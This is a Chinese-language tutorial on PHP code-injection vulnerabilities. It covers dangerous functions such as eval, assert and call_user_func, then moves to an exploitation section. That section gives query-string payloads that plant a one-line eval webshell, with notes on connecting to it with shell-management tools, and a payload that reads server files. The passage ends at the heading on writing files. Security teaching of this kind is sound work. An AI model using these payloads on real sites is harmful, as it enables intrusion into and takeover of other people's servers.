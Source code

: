#### 代码注入的原理和成因

代码执行（注入）（RCE，remote code execution ）是指应用程序过滤不严，用户可以通过请求将代码注入到应用中执行。代码执行（注入）类似于SQL注入漏洞，SQL注入是将SQL语句注入到数据库中执行，而代码执行则是可以把代码注入到应用中最终由服务器运行它。这样的漏洞如果没有特殊的过滤，相当于有一个web后门的存在，危险性很大

##### 成因：

1. 程序中含有可以执行PHP代码的函数或者语言结构
2. 传入第一点中的参数，客户端可控，能直接修改或影响

#### 漏洞危害

web应用如果存在代码执行漏洞是一件非常可怕的事情，就像一个人没有穿衣服，赤裸裸的的暴露在光天化日下的。可以通过代码执行漏洞继承web用户权限，执行任意代码。如果具有服务器没有正确配置，web用户权限比较高的话，我们可以读写目标服务器任意文件内容，甚至控制整个网站以及服务器。

PHP中很多函数和语句都会造成PHP代码执行漏洞

#### 相关函数和语句

1. eval()，会将字符串当作php代码执行

   测试代码如下：

   - 提交参数

      `?code=phpinfo();`

      也可以是`?code=${phpinfo()};`、`?code=1;phpinfo();`

2. assert()，同样会作为PHP代码执行

    - 提交参数

    `?code=phpinfo()`，无论是否加入分号都可以被执行

3. preg_replace()，这个函数作用是对字符串进行正则处理

    `<?php`

    `$str=preg_replace('/a/','b',"abcdefgajest");`

    `echo $str`

    `?>`

    查找a替换成b，输出结果为bbcdefgajest，要注意preg_replace()中是正则公式，所以使用双斜杠标记需要查找的内容

    - 提交参数

        `?code=[phpinfo()]`

4. call_user_func()，都有调用其他函数的功能，其中一个参数作为要调用的函数名，如果传入的函数名可控，那就可以调用意外的函数来执行想要的代码，也就是存在任意代码执行漏洞

    - 提交参数

    `?fun=assert&para=phpinfo()`

5. 动态函数$a($b)，由于PHP本身特性，PHP函数支持直接由拼接的方式调用，导致了PHP在安全上的控制加大了难度。不少知名程序也用到了动态函数的写法，这种写法跟使用了call_user_func()的初衷一样，用来更加方便的调用函数，但是一旦过滤不严格就会造成代码执行漏洞

    - 提交参数

    `?a=assert&b=phpinfo()`

#### 漏洞利用

1. 直接获取shell

    - 提交参数

        `?code=@eval($_POST[1]);`

        `?code=@eval($_REQUEST[1]);`

        输入命令即可构成一句话木马，密码是1，可以使用"中国菜刀"或者"中国蚁剑"连接

2. 获取当前文件的绝对路径，`_FILE_`是PHP的预定义常量，其含义是当前文件的路径

    - 提交参数

        `?code=print(_FILE_)`

3. 读文件，file_get_contents()，读取服务器任意文件，前提是需要知道目标文件路径和读取权限

    - 提交参数，读取设备的hosts

        `?code=var_dump(file_get_contents('c:\windows\system32\drivers\etc\hosts'))`

4. 写文件

     